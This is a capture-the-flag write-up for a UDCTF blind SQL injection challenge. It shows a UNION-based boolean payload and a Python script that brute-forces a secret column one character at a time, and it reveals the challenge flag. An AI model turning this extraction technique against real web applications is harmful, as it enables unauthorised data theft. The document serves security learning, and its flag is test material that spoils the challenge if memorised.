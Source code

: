 # Why lie: Blind SQL injection (500 points)

![Alt text](./_images/image.png)

Given the script shows that it will output only Good guess! and Nope if our sql statement query fetches any data or not. So we can use blind sql injection to get the flag by boolean based.

![Alt text](./_images/image-1.png)

Using cyberfox with hackbar extension we can easily make a payload. The payload above was showed as an example from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md). 

Blind SQL injection process:
- Find the number of columns
- Find the table name
- Find the column name
- Analyze what we can do next

As we have already found the number of columns and the table name is `secret`.

![Alt text](./_images/image-2.png)

Finding the column name needs a bit of guessing. I tried `message` but shows error so I tried `flag` and it worked.

![Alt text](./_images/image-3.png)

Now we can use the column name to get the flag by bruteforcing it with output based "Good guess!" and "Nope".

The payload: `guess=1 UNION SELECT 1 FROM secret where flag like "UDCTF{\%";`

```python
import requests
import concurrent.futures

url = "https://bluehens-blindsql.chals.io/index.php?guess=1 UNION SELECT 1 FROM secret where flag like '" 

charset = "abcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()-=+{}[]|;:'\",.<>?/`~"

flag = "UDCTF{"

def check_character(char):
    payload = f"{url}{flag}{char}%'"
    response = requests.get(payload)
    return "Good guess!" in response.text

with concurrent.futures.ThreadPoolExecutor() as executor:
    while True:
        futures = [executor.submit(check_character, char) for char in charset]
        concurrent.futures.wait(futures)
        
        found = False
        for char, future in zip(charset, futures):
            if future.result():
                flag += char
                found = True
                print(flag)
                break
        
        if not found or flag[-1] == "}":
            break

print("Flag:", flag)
```

**FLAG:** UDCTF{l1k3_a_b4t}